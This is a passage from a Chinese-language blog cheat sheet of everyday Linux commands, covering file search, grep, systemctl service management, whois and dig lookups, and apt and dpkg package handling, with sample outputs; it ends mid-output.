<li><p><code>find 【path】 【string】</code> ：搜索文件   如：  find /test -name ‘<em>epc</em>‘</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">(<span class="number">1</span>)find / -amin <span class="number">-10</span> 　　# 查找在系统中最后<span class="number">10</span>分钟访问的文件(access time)</span><br><span class="line">(<span class="number">2</span>)find / -atime <span class="number">-2</span>　　 # 查找在系统中最后<span class="number">48</span>小时访问的文件</span><br><span class="line">(<span class="number">3</span>)find / -empty 　　# 查找在系统中为空的文件或者文件夹</span><br><span class="line">(<span class="number">4</span>)find / -group cat 　　# 查找在系统中属于 group为cat的文件</span><br><span class="line">(<span class="number">5</span>)find / -mmin <span class="number">-5</span> 　　# 查找在系统中最后<span class="number">5</span>分钟里修改过的文件(modify time)</span><br><span class="line">(<span class="number">6</span>)find / -mtime <span class="number">-1</span> 　　#查找在系统中最后<span class="number">24</span>小时里修改过的文件</span><br><span class="line">(<span class="number">7</span>)find / -user fred 　　#查找在系统中属于fred这个用户的文件</span><br><span class="line">(<span class="number">8</span>)find / -size +<span class="number">10000</span>c　　#查找出大于<span class="number">10000000</span>字节的文件(c:字节，w:双字，k:KB，M:MB，G:GB)</span><br><span class="line">(<span class="number">9</span>)find / -size <span class="number">-1000</span>k 　　#查找出小于<span class="number">1000</span>KB的文件</span><br><span class="line"></span><br><span class="line">find  / -name [software]</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>flatpak remote-add --if-not-exists flathub https://flathub.org/repo/flathub.flatpakrepo</code> ：Flatpak添加远程仓库 <a href="https://flathub.org/home" target="_blank" rel="noopener">https://flathub.org/home</a></p>
</li>
<li><p><code>free 【option】</code> ：显示内存（可选项：null、-m【MB显示】、-g【GB显示】）</p>
</li>
<li><p><code>grep 【string】</code> ：在……搜索string，如ps aux|grep top</p>
<figure class="highlight perl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">(<span class="number">1</span>)<span class="keyword">grep</span> ‘test’ d*　　<span class="comment">#显示所有以d开头的文件中包含 test的行</span></span><br><span class="line">(<span class="number">2</span>)<span class="keyword">grep</span> ‘test’ aa bb cc 　　 <span class="comment">#显示在aa，bb，cc文件中包含test的行</span></span><br><span class="line">(<span class="number">3</span>)<span class="keyword">grep</span> ‘[a-z]<span class="string">&#123;5&#125;</span>’ aa 　　<span class="comment">#显示所有包含每行字符串至少有5个连续小写字符的字符串的行</span></span><br><span class="line">(<span class="number">4</span>)<span class="keyword">grep</span> magic /usr/src　　<span class="comment">#显示/usr/src目录下的文件(不含子目录)包含magic的行</span></span><br><span class="line">(<span class="number">5</span>)<span class="keyword">grep</span> -r magic /usr/src　　<span class="comment">#显示/usr/src目录下的文件(包含子目录)包含magic的行</span></span><br><span class="line">(<span class="number">6</span>)<span class="keyword">grep</span> -w pattern files ：只匹配整个单词，而不是字符串的一部分(如匹配’magic’，而不是’magical’)</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>gzip</code> ：压缩文件<code>gzip -c</code> 、解压<code>gunzip</code></p>
</li>
<li><p><code>id</code> ：显示当前用户权限</p>
</li>
<li><p><code>journalctl 【option】</code> ：日志（可选项：null、-r【倒序】、-f【连续输出】、-u【指定服务单元】）</p>
</li>
<li><p><code>kill -9（强制）/-15（优雅结束） 【pid】</code> ：结束进程</p>
</li>
<li><p><code>killall -9 【service name】</code> ：结束服务相关进程</p>
</li>
<li><p><code>less 【big txt file】</code> ：查看大文件</p>
</li>
<li><p><code>ln</code> ：</p>
<ul>
<li><code>ln -s [file path] [目标文件夹]</code> ：创建软链接</li>
<li><code>ln -s</code>pwd<code>/ehbio2.fa ../data</code> ：“`”为键盘 Esc 下面的按键,写在反引号内的命令会被运行,运行结果会放置在反引号所在的位置</li>
</ul>
</li>
<li><p><code>ls 【选项】</code>  ：列出文件夹内容（可选项：-l【详细选项、所有者】、-a【显示隐藏文件】、-h【人性化显示单位】）</p>
<ul>
<li><code>lsusb</code> ：；列出USB设备</li>
<li><code>lspci</code> ： 列出PCI设备</li>
<li><code>lshw</code> ： 列出</li>
<li><code>lsmod</code> ：列出驱动模块</li>
<li><code>lsof -i</code> : 列出联网情况（<code>netstat -nlp</code> 、<code>ss -lntpd | grep :22</code> 、<code>lsof -i tcp:22</code>也差不多）</li>
</ul>
</li>
<li><p><code>man 【选项】 【要查询的命令】</code>  ：查看命令的详细帮助手册</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">举例：man <span class="number">2</span> read ——&gt; 查看分类<span class="number">2</span>下的read命令帮助</span><br><span class="line">man手册分类：</span><br><span class="line"><span class="number">1.</span> 可以从命令行执行的命令</span><br><span class="line"><span class="number">2.</span> 系统调用（内核函数）</span><br><span class="line"><span class="number">3.</span> 库函数 lib</span><br><span class="line"><span class="number">4.</span> 设备 dev</span><br><span class="line"><span class="number">5.</span> 配置文件</span><br><span class="line"><span class="number">6.</span> 游戏</span><br><span class="line"><span class="number">7.</span> 宏、标准等</span><br><span class="line"><span class="number">8.</span> 系统管理命令</span><br><span class="line"><span class="number">9.</span> 内核例程</span><br></pre></td></tr></table></figure>
<ul>
<li><code>apropos 【问题】</code> ：和<code>man</code>、<code>pinfo</code>类似的帮助手册</li>
<li><code>pinfo</code> ：友好的命令帮助手册，和<code>man</code>命令类似</li>
<li><code>yelp</code> ：GNOME的帮助手册</li>
</ul>
</li>
<li><p><code>netstat -nlp</code> : 查看进程、端口使用情况</p>
</li>
<li><p><code>passwd 【-l/-u】 【username】</code> :冻结 或者 解冻账户</p>
</li>
<li><p><code>pkill -9 pts/0</code>  ：踢出pts：0的用户</p>
<ul>
<li><code>echo “你被管理员踢出了” &gt; /dev/pts/0 &amp;&amp; fuser -k /dev/pts/0</code></li>
<li><code>echo “你被管理员踢出了” &gt; /dev/tty5 &amp;&amp; fuser -k /dev/tty5</code></li>
</ul>
</li>
<li><p><code>ps aux</code> ：显示正在运行的进程</p>
<ul>
<li><code>ps -ef</code> ：查看服务进程</li>
</ul>
</li>
<li><p><code>pwd</code> ：显示当前工作区</p>
</li>
<li><p><code>pwgen</code> ：密码生成器</p>
</li>
<li><p><code>rename &#39;test&#39; &#39;here&#39; test*.txt</code>  : 把test*.txt的文件中带有test的字符串替换为here</p>
</li>
<li><p><code>rmdir</code> ：目录删除</p>
</li>
<li><p><code>rpm</code> ：Cent OS 的包管理器</p>
<ul>
<li><code>rpm -qa</code> :查看rpm安装的软件</li>
<li><code>rpm -e 【package name】</code> : rpm卸载软件</li>
<li><code>rpm -e 【package name】  -nodeps</code> ：忽略依赖关系卸载软件</li>
<li><code>rpm -ivh 【package】</code>：安装软件</li>
<li><code>rpm -Uvh 【package】</code> ：升级软件</li>
</ul>
</li>
<li><p><code>seq</code> ：产生数字</p>
<ul>
<li><code>seq 1 10</code> ：产生从 1 到 10 的数</li>
<li><code>seq -s &#39; &#39; 1 10</code> ：步长为 1,用空格分割</li>
<li><code>seq -s &#39; &#39; 1 2 10</code> ：如果有 3 个数,中间的数为步长,最后一个始终为最大值</li>
</ul>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">cat &lt;(seq <span class="number">0</span> <span class="number">3</span> <span class="number">17</span>) &lt;(seq <span class="number">3</span> <span class="number">6</span> <span class="number">18</span>) &gt;test</span><br><span class="line"><span class="symbol">ct@</span>ehbio:~$ cat test</span><br><span class="line"><span class="number">0</span></span><br><span class="line"><span class="number">3</span></span><br><span class="line"><span class="number">6</span></span><br><span class="line"><span class="number">9</span></span><br><span class="line"><span class="number">12</span></span><br><span class="line"><span class="number">15</span></span><br><span class="line"><span class="number">3</span></span><br><span class="line"><span class="number">9</span></span><br><span class="line"><span class="number">15</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>systemctl 【选项】 【服务名】</code> ：Linux服务管理命令(<strong>很重要</strong> ，systemctl：比service更为强大)</p>
<ul>
<li><code>systemctl status 【服务名】</code> ：显示服务状态</li>
<li><code>systemctl enable/disable 【服务名】</code> ：设置开机启动、禁止</li>
<li><code>systemctl start/stop/reload/restart 【服务名】</code> ：启动、停止、重载、重启服务</li>
<li><code>systemctl list-unit-files</code> ：查看所有服务情况</li>
<li><code>systemctl list-unit-files |grep enabled</code> ：查看开机启动的服务</li>
<li><code>systemctl mask NAME.service</code> ：禁止某服务设定为开机自启</li>
<li><code>systemctl umask NAME.service</code> ：取消禁止某服务设定为开机自启</li>
<li><code>systemctl is-active NAME.service</code> ：查看某服务当前激活与否的状态</li>
<li><code>systemctl list-units --type service</code> ：查看所有已激活的服务</li>
<li><code>systemctl list-dependencies NAME.service</code> ：查看服务的依赖关系</li>
<li><code>systemd-cgls</code> ：以树形列出正在运行的进程，它可以递归显示控制组内容</li>
</ul>
<figure class="highlight lsl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br></pre></td><td class="code"><pre><span class="line"># Kali默认开机自启的服务</span><br><span class="line">accounts-daemon.service                                          enabled        </span><br><span class="line">anacron.service                                                  enabled        </span><br><span class="line">autovt@.service                                                  enabled        </span><br><span class="line">binfmt-support.service                                           enabled        </span><br><span class="line">console-setup.service                                            enabled        </span><br><span class="line">cron.service                                                     enabled        </span><br><span class="line">dbus-org.freedesktop.ModemManager1.service                       enabled        </span><br><span class="line">dbus-org.freedesktop.nm-dispatcher.service                       enabled        </span><br><span class="line">dbus-org.freedesktop.timesync1.service                           enabled        </span><br><span class="line">getty@.service                                                   enabled        </span><br><span class="line">haveged.service                                                  enabled        </span><br><span class="line">keyboard-setup.service                                           enabled        </span><br><span class="line">lxc.service                                                      enabled        </span><br><span class="line">ModemManager.service                                             enabled        </span><br><span class="line">network-manager.service                                          enabled        </span><br><span class="line">networking.service                                               enabled        </span><br><span class="line">NetworkManager-dispatcher.service                                enabled        </span><br><span class="line">NetworkManager-wait-online.service                               enabled        </span><br><span class="line">NetworkManager.service                                           enabled        </span><br><span class="line">pppd-dns.service                                                 enabled        </span><br><span class="line">rsync.service                                                    enabled        </span><br><span class="line">rsyslog.service                                                  enabled        </span><br><span class="line">smartd.service                                                   enabled        </span><br><span class="line">smartmontools.service                                            enabled        </span><br><span class="line">syslog.service                                                   enabled        </span><br><span class="line">systemd-fsck-root.service                                        enabled-runtime</span><br><span class="line">systemd-remount-fs.service                                       enabled-runtime</span><br><span class="line">systemd-timesyncd.service                                        enabled        </span><br><span class="line">dm-event.socket                                                  enabled        </span><br><span class="line">lvm2-lvmpolld.socket                                             enabled        </span><br><span class="line">pcscd.socket                                                     enabled        </span><br><span class="line">uuidd.socket                                                     enabled        </span><br><span class="line">nfs-client.target                                                enabled        </span><br><span class="line">remote-fs.target                                                 enabled        </span><br><span class="line">apt-daily-upgrade.<span class="section">timer</span>                                          enabled        </span><br><span class="line">apt-daily.<span class="section">timer</span>                                                  enabled        </span><br><span class="line">e2scrub_all.<span class="section">timer</span>                                                enabled        </span><br><span class="line">exim4-base.<span class="section">timer</span>                                                 enabled        </span><br><span class="line">fwupd-refresh.<span class="section">timer</span>                                              enabled   </span><br><span class="line">======================================================================================</span><br><span class="line">对于target类型的文件是如何进行管理的，我们在刚才的文章中写道unit的常见类型，其中target类型就是用于实现其系统启动的运行级别，一共有七个运行级别，从<span class="number">0</span>开始，到<span class="number">6</span>结束，我们介绍一下这七个运行级别。</span><br><span class="line"></span><br><span class="line"><span class="number">0</span>：关机；</span><br><span class="line"><span class="number">1</span>：单用户模式，无网络连接，不运行守护进程，不允许非超级用户登录；</span><br><span class="line"><span class="number">2</span>：多用户模式，无网络连接，不运行守护进程；</span><br><span class="line"><span class="number">3</span>：多用户模式，正常启动系统；</span><br><span class="line"><span class="number">4</span>：用户自定义；</span><br><span class="line"><span class="number">5</span>：多用户模式，图形界面；</span><br><span class="line"><span class="number">6</span>：重启；</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>tail /var/log/kern.log</code>  :查看最新内核日志</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">/<span class="class"><span class="keyword">lib</span>/<span class="title">modules</span>/[<span class="title">kernel</span> <span class="title">version</span>]/<span class="title">kernel</span> :内核模块</span></span><br><span class="line">/<span class="class"><span class="keyword">lib</span>/<span class="title">modules</span>/[<span class="title">kernel</span> <span class="title">version</span>]/<span class="title">modules</span>.<span class="title">dep</span>:<span class="title">depend</span>文件</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>uname -a</code> ：显示系统信息（kernel【内核】+hostname【主机名】+kernel release【内核发布】+kernel version【内核版本】+machine type【设备架构】+name of the OS【系统名】）</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">Linux Blanc <span class="number">4.19</span><span class="number">.0</span><span class="number">-11</span>-amd64 #<span class="number">1</span> SMP Debian <span class="number">4.19</span><span class="number">.146</span><span class="number">-1</span> (<span class="number">2020</span><span class="number">-09</span><span class="number">-17</span>) x86_64 GNU/Linux</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>usermod -l 【new name】 【old name】</code> ：修改用户名</p>
</li>
<li><p><code>w</code> ：显示当前登录的用户</p>
</li>
<li><p><code>which/type 【command】</code> ：显示某命令位置</p>
</li>
<li><p><code>whois 【查询的域名】</code> : 域名注册查询</p>
<ul>
<li><code>nslookup</code>、<code>dig</code> 命令也可以查询。dig更权威，nslookup只是查询本地cache数据。</li>
</ul>
<figure class="highlight dts"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line">dig @ns.watson.ibm.com ycyijia.cn/wx 指定DNS查询域名</span><br><span class="line">whois -h whois.apnic.net [IP]</span><br><span class="line"></span><br><span class="line">一些在线查询网站：</span><br><span class="line"><span class="symbol">http:</span><span class="comment">//www.cz88.net/                                    IP物理地址</span></span><br><span class="line"><span class="symbol">http:</span><span class="comment">//www.maxmind.com</span></span><br><span class="line"><span class="symbol">https:</span><span class="comment">//searchdns.netcraft.com/</span></span><br><span class="line"><span class="symbol">https:</span><span class="comment">//toolbar.netcraft.com/site_report?url=           后面接网址</span></span><br><span class="line"><span class="symbol">http:</span><span class="comment">//www.ip-adress.com/reverse_ip                     反向查询IP</span></span><br><span class="line"></span><br><span class="line"><span class="symbol">https:</span><span class="comment">//www.exploit-db.com/google-dorks                 GHDB利用谷歌收集信息</span></span><br><span class="line">SiteDigger or SearchDiggity                             Windows下的检索工具</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>yum list installed</code> ：yum包管理器列出已安装的。</p>
</li>
</ul>
<h2 id="软件管理相关"><a href="#软件管理相关" class="headerlink" title="软件管理相关"></a>软件管理相关</h2><h3 id="APT-amp-DPKG"><a href="#APT-amp-DPKG" class="headerlink" title="APT  &amp; DPKG"></a>APT  &amp; DPKG</h3><blockquote>
<p>apt和dpkg是Debian系Linux的软件包管理器。可以帮助你从Linux官方仓库（类似苹果的App Store）安装软件。其他包管理器还有yum、pacman等。</p>
<p>对于小白，apt至少需要掌握：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">学会编辑apt源文件： /etc/apt/sources.list —— vi /etc/apt/sources.list</span><br><span class="line">apt-<span class="builtin-name">get</span> update —— 更新软件包索引列表(一般都是要先运行这个命令)</span><br><span class="line">apt-<span class="builtin-name">get</span><span class="built_in"> upgrade </span>—— 更新软件</span><br><span class="line">apt-<span class="builtin-name">get</span> dist-upgrade —— 更新系统(包括软件)</span><br><span class="line">apt-<span class="builtin-name">get</span> install 【软件包名】 —— 安装某软件，软件包名可以按Tab按键补齐，前提是安装了bash-completion软件包(apt install bash-completion)。</span><br><span class="line">apt install 【】 —— 安装本地deb文件</span><br><span class="line">apt-<span class="builtin-name">get</span> <span class="builtin-name">remove</span> 【软件包名】 —— 卸载软件</span><br><span class="line">apt-<span class="builtin-name">get</span> search 【软件包名】 —— 搜索软件</span><br><span class="line">apt install -f —— 【修复破损的安装】</span><br></pre></td></tr></table></figure>
<p>对于小白dpkg至少要掌握：</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">dpkg -i 【本地<span class="keyword">deb</span>软件包】 —— 安装本地<span class="keyword">deb</span>软件包，一般是安装在/<span class="keyword">opt</span>/目录</span><br><span class="line">dpkg -r 【本地<span class="keyword">deb</span>软件包】 —— 卸载已安装的软件</span><br></pre></td></tr></table></figure>
</blockquote>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">apt-<span class="keyword">get</span> ==&gt;  apt 					</span><br><span class="line">   |_________|</span><br><span class="line">        |						</span><br><span class="line">        V</span><br><span class="line">       GUI(third party designed)			</span><br><span class="line">    ____|____	</span><br><span class="line">   |         |						</span><br><span class="line">synaptic  aptitude	</span><br><span class="line"></span><br><span class="line">dpkg -i xxx.deb ==&gt; dpkg --unpack xxx.deb + dpkg --configure xxx.deb + Processing triggers ➥ <span class="number">3.4</span><span class="number">.1</span><span class="number">-9</span> （报错示例）</span><br><span class="line"></span><br><span class="line">当某些安装包中有已经安装的模块组件，dpkg会拒绝安装他，但是可以用下面命令覆盖</span><br><span class="line">dpkg -i --force-overwrite zsh_5<span class="number">.2</span><span class="number">-5</span>+b1_amd64.deb 强制安装</span><br><span class="line"></span><br><span class="line">dpkg: error processing /var/cache/apt/archives/libgdm_3<span class="number">.8</span><span class="number">.3</span><span class="number">-2</span>_amd64.deb (--unpack):</span><br><span class="line">trying to overwrite ’/usr/bin/gdmflexiserver’, which <span class="keyword">is</span> also <span class="keyword">in</span> package gdm3</span><br></pre></td></tr></table></figure>
<h3 id="APT常用命令解析"><a href="#APT常用命令解析" class="headerlink" title="APT常用命令解析"></a>APT常用命令解析</h3><ul>
<li><p><code>sudo apt remove --dry-run [软件包]</code>：apt模拟运行</p>
</li>
<li><p><code>apt list 【包名】</code> ：显示软件包状态</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">正在列表... 完成</span><br><span class="line">zhcon/stable,now <span class="number">1</span>:<span class="number">0.2</span><span class="number">.6</span><span class="number">-16</span> amd64 [已安装，自动]</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>apt list --installed</code> ：查看已安装的</p>
</li>
<li><p><code>apt list --upgradable</code> ：显示可更新的包</p>
</li>
<li><p><code>apt -o Dpkg::Options::=”--force-overwrite” install zsh</code> ：要求强制安装覆盖—通过向<code>dpkg</code> 传递参数</p>
</li>
<li><p><code>{APT::Clean-Installed}</code> 参数可以防止删除当前安装的deb包裹，因为APT通常在安装完成后自动删除包</p>
</li>
</ul>
<hr>
<ul>
<li><p><code>apt-cache</code>  :显示APT的数据库，每次<code>apt update</code> 会不同</p>
</li>
<li><p><code>apt-cache depends 【package】</code> :查看依赖</p>
</li>
<li><p><code>apt-cache dumpavail</code> ： 所有可用包的头信息，即标题</p>
</li>
<li><p><code>apt-cache pkgnames</code> ：  显示至少在cache中出现过一次的包的列表</p>
</li>
<li><p><code>apt-cache policy</code> ：显示包优先度及单包</p>
</li>
<li><p><code>apt-cache rdepends 【package】</code> :查看被依赖关系</p>
</li>
<li><p><code>apt-cache search 【keyword】</code> ： 搜索包含关键词的包。<code>apt-cache search</code>仅仅是低级搜索，返回信息可能太多或无用，所以<code>axi-cache search term</code> 用来高级搜索。</p>
<ul>
<li><code>axi-cache search 【forensics graphical】</code> ：【】内是搜索的关键词，结果以相关度进行排序。</li>
<li><code>apt-cache search ^linux-source</code>： 显示<code>kali</code>包装的最新版本内核</li>
</ul>
</li>
<li><p><code>apt-cache show package</code>  ：显示包的头信息，版本、依赖组件、维护者、简介</p>
<blockquote>
<p>This feature is particularly useful in determining the packages that are installed via meta-packages, such as kali-linux-wireless, kali-linux-web, and kali-linux-gpu .<code>apt show</code>, <code>aptitude search</code>, and <code>aptitude show</code>也是一样的。</p>
<p><code>apt-cache show nginx | grep -i version</code> ：查询其他版本</p>
</blockquote>
</li>
</ul>
<hr>
<ul>
<li><code>apt-get autoremove</code> : 清除自动安装的不需要的依赖</li>
<li><p><code>apt-get autoclean</code>  ：只清理<code>/var/cache/apt/archives/</code>中不再需要的、无法从镜像中再安装的包</p>
</li>
<li><p><code>apt-get build-dep 【package】</code> :安装该包的编译环境</p>
</li>
<li><code>apt-get check</code> :检查依赖是否被破坏</li>
<li><p><code>apt-get clean</code> ： 完全清空<code>/var/cache/apt/archives/</code></p>
</li>
<li><p><code>apt-get dist-upgrade</code> ：升级系统</p>
<blockquote>
<p>避免失败的更新：查看新版本的更改，<code>apt-listchanges</code>    更新说明：<code>/usr/share/doc/package/NEWS.Debian</code></p>
</blockquote>
</li>
<li><p><code>apt-get dselect-upgrade</code> :使用 <code>dselect</code> 升级</p>
</li>
<li><p><code>apt-get full-upgrade</code> ：完全升级系统</p>
<ul>
<li>对于重要的版本升级，应使用apt full-upgrade  ，这将会删除旧的没用的包，添加新的组件 （apt-get 没有）—— It is so simple that it hardly needs explanation: APT’s reputation is based on this great functionality.</li>
<li>关于更新：<strong>apt-get 要求比 apt 高</strong>，因为它拒绝安装此前未安装过的包。</li>
</ul>
</li>
<li><p><code>apt-get install -s apache2</code> ：apt模拟安装某包</p>
</li>
<li><p><code>apt-get install 【包名】</code> : 安装软件</p>
<ul>
<li>通过添加后缀来同事安装、卸载包裹:<ul>
<li><code>apt install package1 package2-</code></li>
<li><code>apt remove package1+ package2</code></li>
</ul>
</li>
<li><code>apt install package=version</code> ：指定版本</li>
<li><code>apt install package/distribution</code> ：指定源</li>
<li><code>apt install PackageName:architecture</code> ：指定架构来安装包</li>
<li><code>apt install 【本地deb文件】</code> ：apt安装本地Deb软件包</li>
</ul>
</li>
<li><p><code>apt-get purge 【包名】</code> : 清除关联文件和依赖组件 「谨慎」</p>
<blockquote>
<Warning! Given the definitive nature of purge, do not execute it lightly. You will lose everything associated with that package.>
</blockquote>
</li>
<li><p><code>apt-get reinstall 【包名】</code> 或者 <code>apt-get install 【package】 --reinstall</code> ： 当不小心修改了某些文件导致某包被破坏，重新安装应使用<code>--reinstall</code>。如果系统被攻击了，则不应该使用<code>--reinstall</code> 因为<code>apt</code>和<code>dpkg</code>可能已经被恶意软件所代替。</p>
<figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">Using</span> apt <span class="comment">--reinstall to restore packages modified during an attack will certainly not recover the system as it was.After an attack, you can’t rely on anything: dpkg and apt might have been replaced by malicious programs, not reinstalling the files as you would like them to. The attacker might also have altered or created files outside the control of dpkg</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>apt-get remove 【包名】</code> : 卸载软件</p>
<blockquote>
<p>将保留配置文件与用户数据，但会删除依赖包。</p>
<p>APT will automatically delete the packages that depend on the package that is being removed.</p>
</blockquote>
</li>
<li><p><code>apt-get search</code> ：搜索软件包</p>
</li>
<li><p><code>apt-get show 【包名】</code> ：显示包信息</p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">Package:</span> <span class="string">zhcon</span></span><br><span class="line"><span class="attr">Version:</span> <span class="number">1</span><span class="string">:0.2.6-16</span></span><br><span class="line"><span class="attr">Priority:</span> <span class="string">optional</span></span><br><span class="line"><span class="attr">Section:</span> <span class="string">utils</span></span><br><span class="line"><span class="attr">Maintainer:</span> <span class="string">Debian</span> <span class="string">Chinese</span> <span class="string">Team</span> <span class="string">&lt;chinese-developers@lists.alioth.debian.org&gt;</span></span><br><span class="line"><span class="attr">Installed-Size:</span> <span class="number">437</span> <span class="string">kB</span></span><br><span class="line"><span class="attr">Depends:</span> <span class="string">zhcon-data,</span> <span class="string">libc6</span> <span class="string">(&gt;=</span> <span class="number">2.15</span><span class="string">),</span> <span class="string">libgcc1</span> <span class="string">(&gt;=</span> <span class="number">1</span><span class="string">:3.0),</span> <span class="string">libgpm2</span> <span class="string">(&gt;=</span> <span class="number">1.20</span><span class="number">.7</span><span class="string">),</span> <span class="string">libncurses6</span> <span class="string">(&gt;=</span> <span class="number">6</span><span class="string">),</span> <span class="string">libpth20</span> <span class="string">(&gt;=</span> <span class="number">2.0</span><span class="number">.7</span><span class="string">),</span> <span class="string">libstdc++6</span> <span class="string">(&gt;=</span> <span class="number">5.2</span><span class="string">),</span> <span class="string">libtinfo6</span> <span class="string">(&gt;=</span> <span class="number">6</span><span class="string">),</span> <span class="string">unicon-imc2</span></span><br><span class="line"><span class="attr">Tag:</span> <span class="string">accessibility::input,</span> <span class="string">accessibility::ocr,</span> <span class="string">culture::chinese,</span></span><br><span class="line"> <span class="string">culture::japanese,</span> <span class="string">culture::korean,</span> <span class="string">culture::taiwanese,</span></span><br><span class="line"> <span class="string">interface::commandline,</span> <span class="string">interface::framebuffer,</span> <span class="string">interface::text-mode,</span></span><br><span class="line"> <span class="string">role::program,</span> <span class="string">scope::utility,</span> <span class="string">uitoolkit::ncurses,</span> <span class="string">use::converting,</span></span><br><span class="line"> <span class="string">works-with::text,</span> <span class="string">works-with::unicode</span></span><br><span class="line"><span class="attr">Download-Size:</span> <span class="number">296</span> <span class="string">kB</span></span><br><span class="line"><span class="attr">APT-Manual-Installed:</span> <span class="literal">no</span></span><br><span class="line"><span class="attr">APT-Sources:</span> <span class="string">https://mirrors.tuna.tsinghua.edu.cn/debian</span> <span class="string">buster/main</span> <span class="string">amd64</span> <span class="string">Packages</span></span><br><span class="line"><span class="attr">Description:</span> <span class="string">Fast</span> <span class="string">console</span> <span class="string">CJK</span> <span class="string">system</span> <span class="string">using</span> <span class="string">FrameBuffer</span> <span class="string">(main</span> <span class="string">program)</span></span><br><span class="line"> <span class="string">Zhcon</span> <span class="string">is</span> <span class="string">a</span> <span class="string">fast</span> <span class="string">Linux</span> <span class="string">console</span> <span class="string">Chinese</span> <span class="string">system</span> <span class="string">which</span> <span class="string">supports</span> <span class="string">framebuffer</span></span><br><span class="line"> <span class="string">device.</span>  <span class="string">It</span> <span class="string">can</span> <span class="string">display</span> <span class="string">Chinese,</span> <span class="string">Japanese</span> <span class="string">or</span> <span class="string">Korean</span> <span class="string">double</span> <span class="string">byte</span> <span class="string">characters</span></span><br><span class="line"> <span class="string">on</span> <span class="string">console.</span></span><br><span 